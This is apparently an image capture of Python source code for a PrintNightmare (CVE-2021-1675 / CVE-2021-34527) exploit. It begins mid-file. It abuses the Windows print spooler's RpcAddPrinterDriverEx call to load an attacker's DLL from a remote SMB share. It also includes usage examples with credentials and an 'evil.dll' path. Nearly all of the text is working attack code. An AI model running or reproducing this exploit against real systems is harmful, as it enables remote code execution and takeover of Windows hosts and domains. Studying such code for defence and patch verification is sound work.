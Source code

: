 ```python
    
    print("[-] Failed to find driver")
    sys.exit(1)


def main(dce, pDriverPath, share, handle=NULL):
    #build DRIVER_CONTAINER package
    container_info = rprn.DRIVER_CONTAINER()
    container_info['Level'] = 2
    container_info['DriverInfo']['tag'] = 2
    container_info['DriverInfo']['Level2']['cVersion']     = 3
    container_info['DriverInfo']['Level2']['pName']        = "1234\x00"
    container_info['DriverInfo']['Level2']['pEnvironment'] = "Windows x64\x00"
    container_info['DriverInfo']['Level2']['pDriverPath']  = pDriverPath + '\x00'
    container_info['DriverInfo']['Level2']['pDataFile']    = "{0}\x00".format(share)
    container_info['DriverInfo']['Level2']['pConfigFile']  = "C:\\Windows\\System32\\winhttp.dll\x00"
    
    flags = rprn.APD_COPY_ALL_FILES | 0x10 | 0x8000
    filename = share.split("\\")[-1]

    resp = rprn.hRpcAddPrinterDriverEx(dce, pName=handle, pDriverContainer=container_info, dwFileCopyFlags=flags)
    print("[*] Stage0: {0}".format(resp['ErrorCode']))

    container_info['DriverInfo']['Level2']['pConfigFile']  = "C:\\Windows\\System32\\kernelbase.dll\x00"
    for i in range(1, 30):
        try:
            container_info['DriverInfo']['Level2']['pConfigFile'] = "C:\\Windows\\System32\\spool\\drivers\\x64\\3\\old\\{0}\\{1}\x00".format(i, filename)
            resp = rprn.hRpcAddPrinterDriverEx(dce, pName=handle, pDriverContainer=container_info, dwFileCopyFlags=flags)
            print("[*] Stage{0}: {1}".format(i, resp['ErrorCode']))
            if (resp['ErrorCode'] == 0):
                print("[+] Exploit Completed")
                sys.exit()
        except Exception as e:
            #print(e)
            pass


if __name__ == '__main__':
    parser = argparse.ArgumentParser(add_help = True, description = "MS-RPRN PrintNightmare CVE-2021-1675 / CVE-2021-34527 implementation.",formatter_class=argparse.RawDescriptionHelpFormatter,epilog="""
Example;
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\\\192.168.1.215\\smb\\addCube.dll'
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\\\192.168.1.215\\smb\\addCube.dll' 'C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL'
    """)
    parser.add_argument('target', action='store', help='[[domain/]username[:password]@]<targetName or address>')
    parser.add_argument('share', action='store', help='Path to DLL. Example \'\\\\10.10.10.10\\share\\evil.dll\'')
    parser.add_argument('pDriverPath', action='store', help='Driver path. Example \'C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL\'', nargs="?")
    group = parser.add_argument_group('authentication')
    group.add_argument('-hashes', action="store", metavar = "LMHASH:NTHASH", help='NTLM hashes, format is LMHASH:NTHASH')
```